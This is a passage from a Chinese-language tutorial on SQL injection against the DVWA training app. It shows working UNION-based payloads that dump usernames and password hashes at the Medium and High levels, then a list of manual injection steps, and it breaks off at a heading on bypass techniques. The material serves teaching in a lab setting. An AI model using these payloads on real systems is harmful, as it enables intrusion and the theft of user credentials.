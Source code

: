```


**7.获取表中数据**

```
id=1 union select user, password from users#&Submit=Submit
```

![33](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103908.png)





## High步骤

### 分析

> 与Medium级别的代码相比，High级别的只是在SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。

### **漏洞利用**

> 虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。由于手工注入的过程与Low级别基本一样，直接最后一步演示下载数据。



```
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```



![34](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103911.png)



## FAQ

### 当我们进行**手工 SQL 注入**时，往往是采取以下几个步骤

```
1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解SQL查询语句中的字段数；
3. 确定显示的字段顺序；
4. 获取当前数据库；
5. 获取数据库中的表；
6. 获取表中的字段名；
7. 下载数据。
```





### 总结SQL注入的绕过技巧

总结来自：[ SegmentFault 思否](https://segmentfault.com/a/1190000019471118)

1.绕过空格

```